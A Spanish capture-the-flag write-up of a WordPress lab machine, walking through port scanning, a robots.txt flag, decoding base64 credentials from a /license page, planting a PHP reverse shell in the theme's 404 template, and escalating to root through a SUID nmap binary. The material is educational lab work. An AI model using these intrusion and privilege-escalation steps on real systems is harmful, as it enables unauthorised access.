

## Resumen

Es una máquina de dificultad media en la que necesitamos conseguir 3 flags y se trabajará web y la escalada de privilegios.

## Enumeración

Empiezo haciendo un ping a la máquina para saber que sistema operativo usa.

```bash
ping -c 1 <vmip>
```

```text
64 bytes from <vmip>: icmp_seq=1 ttl=62 time=26.9 ms
```

Con esto sé que la máquina es Linux.

Sigo con nmap escaneando los puertos para ver cuáles están abiertos.

```bash
nmap -sVC -p- --min-rate 5000 <vmip> -oG nmap
```

```text
PORT    STATE SERVICE    VERSION
22/tcp  open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http       Apache httpd
443/tcp open  ssl/https?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Puertos encontrados:

```text
ssh/22
Apache/80
ssl/443
```

Ya que por ahora no tenemos credenciales empiezo por el Apache.

## Análisis puerto 80

Empiezo entrando a la web y veo que es una web interactiva en la que puedes poner comandos personalizados pero ninguno hace nada interesante.

Antes de empezar con gobuster entro a `robots.txt` para ver si hay algún subdirectorio interesante.

Una vez dentro nos encontramos con esto:

```text
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Al ponerlo en el navegador nos encontramos con la primera flag.

```bash
curl http://<vmip>/key-1-of-3.txt
```

`073403c8a58a1f80d943*******`

Una vez ya visto `robots.txt` prosigo con gobuster enumerando subdirectorios.

```bash
gobuster dir -u http://<vmip> -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
```

Después de buscar encuentro un subdirectorio interesante.

`http://<vmip>/license`

Le hago un curl y al final de la página encuentro texto en base64.

```bash
curl http://<vmip>/license
```

`what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?`

Y al final de la página sale esto.

`ZWxsaW90OkVSMj****=`

Y al decodificarlo nos sale esto.

```bash
echo ZWxsaW90OkVSMj****= | base64 -d
```

```text
elliot:*****
```

Al probar las credenciales en el ssh no funcionaba pero me pude loggear en el panel de wordpress.

## Explotación

Viendo la versión de WordPress veo que es vulnerable a un RCE explotando el editor de apariencia del wordpress.

Pongo la revshell de php pentest monkey la plantilla `404`.



Una vez subido el payload visito la URL de la plantilla con el payload.

`http://<vmip>/wp-content/themes/twentyfifteen/404.php`

Una vez visitada la URL se ejecuta la revshell y conseguimos un usuario con bajos privilegios `daemon`.

## Escalada de privilegios

Empiezo con `sudo -l`

```bash
sudo -l
```

```text
sudo: a terminal is required to read the password; either use the -S option to read from standard input or configure an askpass helper
```

Nada, sigo buscando si hay algún binario SUID no común.

```bash
find / -perm -4000 -type f 2>/dev/null
```

```text
/bin/umount
/bin/mount
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/pkexec
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Veo que nmap tiene SUID que no es lo normal así que lo exploto con la ayuda de GTFOBins.

```bash
nmap --interactive
!/bin/sh
```

Una vez ejecutado el comando ponemos whoami para ver que usuario tenemos.

```bash
whoami
```

```text
root
```

Una vez ya con root procedo a hacer una búsqueda de archivos ya que tenemos el nombre de la primera flag doy por hecho que las otras se llamarán igual.

```bash
find / -name "key-*of-3*" 2>/dev/null
```

```text
/root/key-3-of-3.txt
/opt/bitnami/apps/wordpress/htdocs/key-1-of-3.txt
/home/robot/key-2-of-3.txt
```

`cat /home/robot/key-2-of-3.txt`

`822c73956184f694993*****`

`cat /root/key-3-of-3.txt`

`04787ddef27c3dee1e***`

Ya con las 3 flags y con root doy por terminada la máquina.

## Flujo de ataque

1. **Enumeración:** Sacamos los puertos `22`, `80` y `443` vía nmap.
2. **Análisis puerto 80:** Sacamos la primera flag ya que encontramos su ruta en `robots.txt` gracias a gobuster y a buscar se encuentra el subdirectorio `/license` en el cual se encuentran las credenciales del wordpress en base64.
3. **Explotación:** Gracias a la versión del WordPress vemos que es vulnerable a RCE. Se ejecuta una revshell en editor de apariencia así consiguiendo el acceso inicial con el usuario `daemon`
4. **Escalada de privilegios:** Al ver los binarios SUID se ve que nmap tiene SUID el cual se puede explotar así consiguiendo root y consiguiendo las otras 2 flags haciendo un `find`.
